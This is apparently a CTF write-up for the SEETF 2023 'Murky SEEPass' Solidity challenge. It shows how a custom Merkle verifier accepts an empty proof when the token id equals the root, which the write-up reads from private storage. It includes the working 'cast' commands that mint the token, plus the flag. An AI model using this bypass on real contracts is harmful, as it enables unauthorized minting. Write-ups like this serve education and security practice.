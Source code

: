 # SEETF 2023 - Murky SEEPass [14 solves / 486 points]

### Description
```
The SEE team has a list of special NFTs that are only allowed to be minted. Find out which one its allowed!

nc win.the.seetf.sg 8546
```

Our goal is to mint at least one token
```solidity
    function isSolved() external view returns (bool) {
        return pass.balanceOf(msg.sender) > 0;
    }
```

We can mint token with mintSeePass()
```solidity
    function mintSeePass(bytes32[] calldata _proof, uint256 _tokenId) public {
        require(!hasMinted(_tokenId), "Already minted");
        require(verify(_proof, _merkleRoot, _tokenId), "Invalid proof");

        _minted[_tokenId] = true;

        _safeMint(msg.sender, _tokenId);
    }
```

The merkle root is set in the constructor and it's private
```solidity
    bytes32 private _merkleRoot;
    mapping(uint256 => bool) private _minted;

    constructor(bytes32 _root) ERC721("SEE Pass", "SEEP") {
        _merkleRoot = _root;
    }
```

But we can still view it by viewing the storage
```
# cast storage 0xF9138A57510d57F4e0E2d506882bBC282DaE3Fd1 --rpc-url http://win.the.seetf.sg:8545/72c18fe1-aa24-41f8-bf55-c89a6608b71b 6
0xd158416f477eb6632dd0d44117c33220be333a420cd377fab5a00fdb72d27a10
```

This is the verify function that verify the merkle proof to the merkle root
```solidity
    function verify(bytes32[] calldata proof, bytes32 root, uint256 index) internal pure returns (bool) {
        bytes32 computedHash = bytes32(abi.encodePacked(index));

        require(root != bytes32(0), "MerkleProof: Root hash cannot be zero");
        require(computedHash != bytes32(0), "MerkleProof: Leaf hash cannot be zero");

        for (uint256 i = 0; i < proof.length; i++) {
            bytes32 proofElement = proof[i];

            if (computedHash < proofElement) {
                // Hash(current computed hash + current element of the proof)
                computedHash = keccak256(abi.encodePacked(computedHash, proofElement));
            } else {
                // Hash(current element of the proof + current computed hash)
                computedHash = keccak256(abi.encodePacked(proofElement, computedHash));
            }
        }

        // Check if the computed hash (root) is equal to the provided root
        return computedHash == root;
    }
```

At first it convert the index to bytes32 and set that as computedHash

Then it has a for loop to iterate each proof in the proof array, but we can completely skip this loop by passing an empty array of proof, then it will be directly compared with the merkle root

mintSeePass() will call verify with the _tokenId as index for verify
```
    function mintSeePass(bytes32[] calldata _proof, uint256 _tokenId) public {
        require(!hasMinted(_tokenId), "Already minted");
        require(verify(_proof, _merkleRoot, _tokenId), "Invalid proof");
```
So we just need to pass the merkle root as _tokenId, then we can mint a token

```
# cast send 0xF9138A57510d57F4e0E2d506882bBC282DaE3Fd1 "mintSeePass(bytes32[], uint256)" [] 0xd158416f477eb6632dd0d44117c33220be333a420cd377fab5a00fdb72d27a10 --rpc-url http://win.the.seetf.sg:8545/72c18fe1-aa24-41f8-bf55-c89a6608b71b --private-key <key>
```

```
# nc win.the.seetf.sg 8546
1 - launch new instance
2 - kill instance
3 - acquire flag
action? 3
uuid please: 72c18fe1-aa24-41f8-bf55-c89a6608b71b

Congratulations! You have solve it! Here's the flag: 
SEE{w3lc0me_t0_dA_NFT_w0rld_w1th_SE3pAs5_f3a794cf4f4dd14f9cc7f6a25f61e232}
```